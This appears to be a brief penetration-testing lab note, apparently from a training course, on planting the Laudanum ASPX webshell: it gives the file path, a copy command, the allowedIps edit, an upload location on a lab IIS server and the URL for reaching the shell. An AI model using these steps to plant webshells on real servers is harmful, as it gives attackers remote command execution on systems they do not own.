 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Laudanum, One Webshell to Rule Them All

files can be found

```
/usr/share/webshells/laudanum
```

Move a Copy for Modification

```
cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```

Add your IP address to the `allowedIps` variable on line `59`

{% code fullWidth="true" %}
```
Uploaded Configuration File Name: C:\inetpub\wwwroot\status.inlanefreight.local\files\demo.aspx
```
{% endcode %}

ale w polu adresu http scieżka wygląda

```
http://10.129.175.77/status.inlanefreight.local//files/demo.aspx
```
